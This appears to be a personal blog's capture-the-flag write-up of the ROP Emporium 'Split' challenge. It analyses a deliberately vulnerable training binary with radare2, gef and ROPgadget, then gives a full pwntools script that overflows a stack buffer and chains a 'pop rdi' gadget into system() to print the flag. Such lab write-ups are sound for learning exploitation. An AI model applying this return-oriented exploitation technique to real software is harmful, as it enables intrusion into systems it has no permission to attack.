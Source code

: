 ```yaml
---
layout: post
title:  "ROP Emporium - Split"
date:   2020-05-15 14:07:20
categories: [ROP]
excerpt: "This is the Second challenge from ROP Emporium, named as Split. In this challenge we have to create a small ROP Chain which execute system and give us the flag to complete the challenge. Through out this i am going to use radare2 as much as i can, just for the sake of learning the tool. Radare2 is a complete framework for reverse-engineering and analyzing binaries."

comments: true
---
```



## Introduction
This is the Second challenge from ROP Emporium, named as **Split**. In this challenge we have to create a small ROP Chain which execute system and give us the flag to complete the challenge. Through out this i am going to use radare2 as much as i can, just for the sake of learning the tool. Radare2 is a complete framework for reverse-engineering and analyzing binaries.

###### Challenge Description 
Combine elements from the ret2win challenge that have been split apart to beat this challenge. Learn how to use another tool whilst crafting a short ROP chain. Your can get the binary for this challenge from [here] : https://ropemporium.com/

###### Tools Used:

+ [ROPGadget]: https://github.com/JonathanSalwan/ROPgadget
+ [Radare2]: https://rada.re/n/
+ [GDB & gef]:https://github.com/hugsy/gef
+ [Pwntools]: https://github.com/Gallopsled/pwntools


###### About the Binary:
Our binary is usual ELF executable in 64-bit architecture.Lets check what protection are on this binary, using rabin2, which comes with **radare2 framework**.

![source-01](/img/Screenshot_2020-05-13_12-32-28.png){: .align-left}


PIE isn't enabled and nx set to true, so we know shellcode cannot be executed off the stack and the binary has ASLR disabled.

## Analyzing the 64bit ELF binary
Lets load the binary with radare2 and dump the functions. The afl command list the functions. We can also output it as JSON using this command aflj~{}

![source-01](/img/Screenshot_2020-05-13_08-41-16.png){: .align-left}


Here we can see three interesting functions:

+ **main()**
+ **pwnme()**
+ **usefulFunction()**

So lets disassemble the binary and see what these fucntions does!

###### main():


![source-01](/img/Screenshot_2020-05-13_08-44-57.png){: .align-left}


The only interesting thing here for us is, its calling the function name **pwnme()** which have overflow vulnerability.

###### pwnme():


![source-01](/img/Screenshot_2020-05-13_08-48-45.png){: .align-left}


Just like in retwin challenge, we have a 32 byte buffer that can be overflowed with fgets that takes 96 characters from the user.


###### usefulFunction()


![source-01](/img/Screenshot_2020-05-13_08-34-01.png){: .align-left}


This function directly call system with **/bin/ls**, which list the files in current working directory and there is also usefullstring which **/bin/cat flag.txt**. so we need to return to this function to exploit the binary successfuly. 


## Fuzzing:
So now the binary analysis is out of the way. Lets start fuzzing the binary. Generate the unique pattern and send to the program.

```
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
[+] Saved as '$_gef0'
gef➤  r
Starting program: /root/Desktop/ROP/split/split/split 
split by ROP Emporium
64bits

Contriving a reason to ask user for data...
> aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa

Program received signal SIGSEGV, Segmentation fault.


```
As expected the program crashed and we have a valid crash scenario here.We have overwritten rsp with our unique patters.

![source-01](/img/Screenshot_2020-05-15_10-20-53.png){: .align-left}




###### Calculating offset

Copy the value in RSP to pattern offset tool.
```
gef➤  pattern offset 0x00007fffffffe048
[+] Searching '0x00007fffffffe048'
[+] Found at offset 40 (little-endian search) likely
[+] Found at offset 33 (big-endian search) 
gef➤  

```

## Building ROP-Chain

Lets find the pieces we need to build a ROP chain.

###### + UsefulString “/bin/cat flag.txt” 

We can find all the strings in binary using rabin2. As we can see from the below img the address of UsefullString is **(0x601060)**


![source-01](/img/Screenshot_2020-05-15_14-55-41.png){: .align-left}


###### + sytem@plt

Using objdump we can grab the address of system@plt. As we can see from below img the address of system is **(0x4005e0)**

![source-01](/img/Screenshot_2020-05-16_07-41-34.png	){: .align-left}


###### + pop rdi; ret

I used ROPGadget to find the pop rdi ret, as we can see from the below img the address is **(0x400883)**

![source-01](/img/Screenshot_2020-05-14_08-23-29.png	){: .align-left}



#### Exploitation 

As we have all the pieces to put together our ROPChain, Now let’s craft the payload.

+ Junk + pop_rdi + bin_cat + system_plt

+ b"A" * 40 + 0x0000000000400883 + 0x00601060 + 0x4005e0



Final exploit using pwntools:

```python

 #!/usr/bin/python                                                                                                                                                    
 from pwn import *                                                                                                                                                    
                                                                                                                                                                      
 def main():                                                                                                                                                          
     context.log_level = "info"                                                                                                                                       
     elf = ELF('./split')                #binary path                                                                                                                 
     p = process(elf.path)                                                                                                                                            
     offset = b"A" * 40                  # RIP Offset at 40                                                                                                           
     usefullString = p64(0x00601060)     # Rabin2 -z split                                                                                                            
     system_plt = p64(0x4005e0)          # objdump -d split                                                                                                           
     pop_rdi = p64(0x0000000000400883)   # ROPgadget.py --binary split | grep 'pop rdi'                                                                               
     payload = offset + pop_rdi + usefullString + system_plt                                                                                                          
     p.sendlineafter(">",payload)                                                                                                                                     
     print (p.recvall())                                                                                                                                              
                                                                                                                                                                      
 if __name__ == "__main__":                                                                                                                                           
     main()   
```
Running the exploit!! w00t we got the flag!

![source-01](/img/Screenshot_2020-05-16_13-29-52.png){: .align-left}


###### End 

Thats the end of split challenge, we learned how to build a simple ROPChain. Cheers!.

> Code for this challenge  https://github.com/d3b4g/ROP-Emporium






